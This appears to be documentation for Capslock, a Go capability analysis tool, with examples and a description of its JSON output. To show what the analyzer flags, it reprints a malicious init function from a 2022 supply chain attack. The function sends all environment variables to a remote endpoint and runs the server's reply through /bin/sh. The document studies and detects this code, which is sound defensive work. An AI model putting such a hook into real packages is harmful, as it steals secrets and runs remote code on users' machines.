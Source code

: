 ## Examples

### Capabilities in supply chain attacks

In August 2022, an attempted supply chain attack cloned thousands of GitHub
repos, adding a malicious payload that appeared to exfiltrate user information
and run an external script. Based on the code snippets available, we can test
what the Capslock analyzer would identify as the capabilities of this code.

As an example, Go packages were typically modified to add the following `init`
statement:

```
func init() {
    if os.Getenv("example") == "1" {
        return
    }
    os.Setenv("example", "1")
    env, err := json.Marshal(os.Environ())
    if err != nil {
        return
    }
    res, err := http.Post("", "application/json", bytes.NewBuffer(env))
    if err != nil {
        return
    }
    defer res.Body.Close()
    body, err := ioutil.ReadAll(res.Body)
    if err != nil {
        return
    }
    if string(body) != "" {
        exec.Command("/bin/sh", "-c", string(body)).Start()
    }
}
```

This would be easily identified by a human reviewer - but with thousands of
lines to review in any potential dependency this sort of thing is easily missed.
Capability signals can help direct reviewer attention to functions of higher
criticality by calling out where privileged operations are likely to be
performed.

With just this init function alone, we get the following capabilities:

```
CAPABILITY_EXEC: 1 calls
CAPABILITY_FILES: 1 calls
CAPABILITY_MODIFY_SYSTEM_STATE: 2 calls
CAPABILITY_NETWORK: 1 calls
CAPABILITY_OPERATING_SYSTEM: 1 calls
CAPABILITY_READ_SYSTEM_STATE: 1 calls
CAPABILITY_REFLECT: 1 calls
CAPABILITY_UNANALYZED: 1 calls
```

This is a lot of capabilities for such a small function, and some of these would
warrant attention. Once a reviewer is aware that this code requires
attention, the issues with it would be immediately obvious.

### Running Capslock on Capslock

As an example of how to interpret capability signals that are not malicious, the analysis for
the Capslock package identifies the following capability calls:

```
CAPABILITY_EXEC: 1 calls
CAPABILITY_FILES: 2 calls
CAPABILITY_OPERATING_SYSTEM: 1 calls
CAPABILITY_READ_SYSTEM_STATE: 2 calls
CAPABILITY_REFLECT: 2 calls
CAPABILITY_UNANALYZED: 2 calls
CAPABILITY_UNSAFE_POINTER: 2 calls
```

That seems like a lot! We can look further into each of these capability by
calling Capslock with the verbose flag `-v`. To begin with we can look into the
`exec` capability:

```
CAPABILITY_EXEC: 1 calls
0 direct, 1 transitive
Example callpath: capslock/cmd/capslock.main capslock/analyzer.LoadPackages golang.org/x/tools/go/packages.Load golang.org/x/tools/go/packages.defaultDriver golang.org/x/tools/go/packages.findExternalDriver$1 (*os/exec.Cmd).Run
```

That isn't particularly surprising - when the CLI call the Go packages driver to
load the given package for analysis, this package uses a transitive call to `os/exec`.
As an example of a capability that is a bit more
unexpected, let's check on where calls to `CAPABILITY_OPERATING_SYSTEM` are coming from.

```
CAPABILITY_OPERATING_SYSTEM: 1 calls
0 direct, 1 transitive
Example callpath: capslock/cmd/capslock.main capslock/analyzer.LoadPackages golang.org/x/tools/go/packages.Load golang.org/x/tools/go/packages.defaultDriver golang.org/x/tools/go/packages.goListDriver golang.org/x/tools/go/packages.goListDriver$1 golang.org/x/tools/go/internal/packagesdriver.GetSizesGolist (*golang.org/x/tools/internal/gocommand.Runner).RunRaw (*golang.org/x/tools/internal/gocommand.Runner).runConcurrent (*golang.org/x/tools/internal/gocommand.Invocation).runWithFriendlyError (*golang.org/x/tools/internal/gocommand.Invocation).run golang.org/x/tools/internal/gocommand.runCmdContext (*os.Process).Kill
```

Looks like this capability is due to calls via the `protobuf` library. That
isn't particularly surprising, and is fairly necessary for this package. This is
an example of how even capabilities that aren't intuitive are not necessarily
something to be avoided. But by reviewing what our code is really doing we can
reassure ourselves that nothing concerning is present in our dependencies.




### Machine-readable outputs

There are two types of machine readable outputs produced by Capslock:

*  JSON, by using -output=j or -output=j
*  A list of capability types, from -output=m


The key details in the JSON output are in the CapabilityInfo repeated field,
which is represented as a protocol buffer in the analyzer. This proto has the
following format:

```
message CapabilityInfo {
  // The name of the package.
  optional string package_name = 1;
  // Name associated with this capability.
  optional Capability capability = 2;
  // The dependency path to where the capability is incurred.
  optional string dep_path = 3;
  // The dependency path to where the capability is incurred.
  // Each element is a single function or method.
  repeated Function path = 6;
  // The location of the package.
  optional string package_dir = 4;
  // Classification of how the capability was incurred.
  optional CapabilityType capability_type = 5;
}
```

As an example, we have the following capability in the JSON output when
analyzing the Capslock package:

```
{
  "packageName":  "main",
  "capability":  "CAPABILITY_EXEC",
  "depPath":  "capslock/cmd/capslock.main capslock/analyzer.LoadPackages golang.org/x/tools/go/packages.Load golang.org/x/tools/go/packages.defaultDriver golang.org/x/tools/go/packages.findExternalDriver$1 (*os/exec.Cmd).Run",
  "path":  [
    {
      "name":  "capslock/cmd/capslock.main"
    },
    {
      "name":  "capslock/analyzer.LoadPackages",
      "site":  {
        "filename":  "capslock.go",
        "line":  "38",
        "column":  "31"
      }
    },
    {
      "name":  "golang.org/x/tools/go/packages.Load",
      "site":  {
        "filename":  "load.go",
        "line":  "78",
        "column":  "28"
      }
    },
    {
      "name":  "golang.org/x/tools/go/packages.defaultDriver",
      "site":  {
        "filename":  "packages.go",
        "line":  "261",
        "column":  "32"
      }
    },
    {
      "name":  "golang.org/x/tools/go/packages.findExternalDriver$1",
      "site":  {
        "filename":  "packages.go",
        "line":  "278",
        "column":  "25"
      }
    },
    {
      "name":  "(*os/exec.Cmd).Run",
      "site":  {
        "filename":  "external.go",
        "line":  "88",
        "column":  "20"
      }
    }
  ],
  "packageDir":  "capslock/cmd/capslock",
  "capabilityType":  "CAPABILITY_TYPE_TRANSITIVE"
},
```

Another important part of the JSON output is the moduleInfo section, which
includes the versions of the packages that were build in order to make the
analysis reproducible.

```
"moduleInfo":  [
    {
      "path":  "golang.org/x/mod",
      "version":  "v0.10.0"
    },
    {
      "path":  "golang.org/x/sys",
      "version":  "v0.8.0"
    },
    {
      "path":  "golang.org/x/tools",
      "version":  "v0.9.3"
    },
    {
      "path":  "google.golang.org/protobuf",
      "version":  "v1.28.1"
    },
]
```
